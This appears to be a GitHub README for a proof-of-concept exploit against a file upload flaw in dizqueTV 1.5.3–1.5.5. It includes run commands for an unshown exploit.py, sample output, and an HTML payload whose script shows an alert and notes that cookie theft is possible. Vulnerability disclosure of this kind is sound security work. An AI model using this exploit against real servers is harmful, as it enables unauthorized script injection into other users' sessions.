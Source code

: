# dizqueTV File Upload to XSS Exploit

## Overview
This exploit targets a file upload vulnerability in **dizqueTV** version 1.5.3. Due to insufficient sanitization in the file upload API, an attacker can upload arbitrary files, enabling potential **Cross-Site Scripting (XSS)** attacks. This exploit leverages the vulnerability to upload a crafted HTML file with embedded JavaScript.

**Exploit Author**: J3rich0123  
**Tested on**: Linux  
**Vendor**: [dizqueTV GitHub Repository](https://github.com/vexorian/dizquetv)  
**Version**: 1.5.3-1.5.5 (Required)  
**CVE**: N/A

## Vulnerable Component
The vulnerability resides in the file upload endpoint at `/api/upload/image`, which does not sanitize file contents or enforce strict file type restrictions. This allows the upload of files containing malicious code.

## Exploit Details
The exploit script creates and uploads an HTML file with a JavaScript-based XSS payload. Once uploaded, this payload can trigger on pages that render the file, potentially allowing the attacker to perform actions like cookie theft or redirection.

## Usage
### Prerequisites
- Python 3.x
- `requests` library

To install the required library:
```bash
pip install requests
```

Exploit Execution

Clone this repository.

Execute the exploit with the target URL as an argument:

```bash
python exploit.py <target_url>
```

Example usage:

```bash
python exploit.py http://localhost:8000/api/upload/image
```

Upon success, you’ll see confirmation messages indicating the file upload was successful.

Note: If the file renders in a browser with JavaScript enabled, the XSS alert will be triggered.

Example Output
plaintext
Copy code
Reading malicious file: xss.html
Uploading malicious file: xss.html
Exploit successful! Attempted to upload: xss.html
Server response: (Server response message here)
PoC HTML Payload
The xss.html payload file created by this exploit contains:

html
Copy code
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Payload</title>
    <script>alert("Hacked!!!");</script>
</head>
<body>
    <h1>Testing XSS Payload</h1>
    <p>If the alert shows, the XSS attack was successful!</p>
</body>
</html>
Remediation
This vulnerability has been reported to the vendor, and a patch will be released in the next version. The patch will address file type sanitization and restrictions.

Disclaimer
This exploit is intended for educational and ethical purposes only. Unauthorized use of this exploit may violate laws and regulations. Use it responsibly.

